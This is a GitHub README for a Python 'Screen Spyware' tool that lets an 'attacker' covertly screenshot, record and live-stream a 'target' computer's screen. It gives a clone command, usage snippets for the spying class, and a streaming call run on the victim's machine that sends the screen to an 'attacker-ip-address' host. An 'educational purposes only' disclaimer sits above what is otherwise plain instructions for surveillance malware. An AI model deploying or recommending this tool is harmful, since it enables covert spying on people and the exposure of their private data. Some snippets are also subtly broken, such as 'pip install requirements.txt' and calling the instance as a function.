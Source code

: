 # Screen Spyware

![image](https://drive.google.com/uc?export=download&id=1F5VVhcpT-Q0UKURoEs98ywISs9RPEzzF)

## Disclaimer

This script is for educational purposes only, I don't endorse or promote it's illegal usage

## Table of Contents

1. [Overview](#overview)
2. [Features](#features)
3. [Languages](#languages)
4. [Installations](#installations)
5. [Usage](#usage)
6. [Run](#run)

## Overview

This script allows an attacker to spy on a target through the screen

## Features

- You can screenshot the screen of the target
- You can screen video the screen of the target
- It streams the target's screen view to the attacker

## Languages

- Python 3.9.7

## Installations

```shell
git clone https://github.com/favoursyre/screen-spyware.git && cd screen-spyware
```

```shell
pip install requirements.txt
```

## Usage

Instantiating the class

```python
attacker, target = "attacker-name", "target-name"
screenSpy = ScreenIntel(attacker, target)
```

To take screen shot of the target's system

```python
image, stat = screenSpy.screenShotter()
```

To take a screen video of the target's system

```python
secs = 30
videoFile = screenSpy.screenVideo(secs)
```

To stream the screen view from the target to the attacker
On target's system

```python
host = "attacker-ip-address"
stream = screenSpy().screenSender(host)
```

On attacker's system

```python
host = "attacker-ip-address"
stream = screenSpy().screenReceiver(host)
```

## Run

```shell
python screen.py
```

To use the streaming function, first run the software on attacker's system before running on the target's system
